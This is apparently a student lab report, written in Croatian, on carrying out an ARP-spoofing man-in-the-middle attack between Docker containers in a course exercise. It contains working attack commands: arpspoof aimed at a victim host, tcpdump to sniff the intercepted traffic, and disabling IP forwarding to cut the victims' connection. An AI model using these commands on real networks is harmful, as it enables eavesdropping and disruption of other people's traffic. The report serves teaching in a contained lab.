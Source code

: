 # Izvještaj (1.)

## Zadatak

Realizirati Man in the middle napad.

Koristimo se  virtualnom Docker mrežom (Docker container networking) koju čine 3 virtualizirana Docker računala (eng. container):

- dvije žrtve station-1 i station-2
- napadač evil-station.

## Upoznavanje sa alatima

**Kloniranje repozitorija**

```bash
$ git clone https://github.com/mcagalj/SRP-2021-22
```

**Promjena radnog direktorija**

```bash
$ cd SRP-2021-22/arp-spoofing
```

**Buildanje i pokretanje docker kontejnera**

```bash
$ chmod +X ./start.sh
$ ./start.sh
```

**Zaustavljanje docker kontejnera**

```bash
$ chmod +X ./stop.sh
$ ./stop.sh
```

**Izlist pokrenutih kontejnera**

```bash
$ docker ps
```

```
CONTAINER ID   IMAGE     COMMAND   CREATED         STATUS         PORTS     NAMES
7142ae607cb3   srp/arp   "bash"    4 minutes ago   Up 4 minutes             station-2
c810f9effdb1   srp/arp   "bash"    4 minutes ago   Up 4 minutes             evil-station
cec29037dbe5   srp/arp   "bash"    4 minutes ago   Up 4 minutes             station-1
---------------------------------------------------------------------------------------
```

**Pokretanje interaktivnog shella u `station-1` kontejneru**

```bash
$ docker ps exec -it sh
```

**Dohvaćenje konfiguracije mrežnog interfejsa**

```bash
$ ifconfig -a
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.24.0.2  netmask 255.255.0.0  broadcast 172.24.255.255
        ether 02:42:ac:18:00:02  txqueuelen 0  (Ethernet)
        RX packets 68  bytes 8291 (8.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Informacije koje dobivamo su:

- IP adresa: 172.24.0.2
- adresa mrežnog uređaja:  02:42:ac:18:00:02

**Provjerimo nalazi li se `station-2` na istoj mreži**

```bash
$ ping station-2
```

```
PING station-2 (172.24.0.4) 56(84) bytes of data.
64 bytes from station-2.srp-lab (172.24.0.4): icmp_seq=1 ttl=64 time=0.404 ms
64 bytes from station-2.srp-lab (172.24.0.4): icmp_seq=2 ttl=64 time=0.164 ms
64 bytes from station-2.srp-lab (172.24.0.4): icmp_seq=3 ttl=64 time=0.147 ms
64 bytes from station-2.srp-lab (172.24.0.4): icmp_seq=4 ttl=64 time=0.093 ms
64 bytes from station-2.srp-lab (172.24.0.4): icmp_seq=5 ttl=64 time=0.154 ms
```

**Pokretanje interaktivnog shella u `station-2` kontejneru**

```bash
$ docker exec -it station-2 sh
```

**Na kontejneru `station-1` pomoću netceta otvaramo server TCP socket na portu 9000**

```bash
$ netcat -lp 9000
```

**Na kontejneru `station-2` pomoću netcata otvaramo client TCP socket na hostnameu `statio-1` 9000**

```bash
$ netcat station-1 9000
```

**Pokretanje interaktivnog shella u `evil-station` kontejneru**

```bash
$ docker exec -it evil-station sh
```

## Izvršavanje napada

**U kontejneru `evil-station` pokrećemo arpspoof**

```bash
$ arpspoof -t station-1 station-2
```

**Pokrećemo tcpdump u kontejneru `evil-station` i pratimo promet**

```bash
$ tcpdump
```

**Gasimo prosljeđivanje spoofanih paketa**

```bash
$ echo 0 > /proc/sys/net/ipv4/ip_forward
```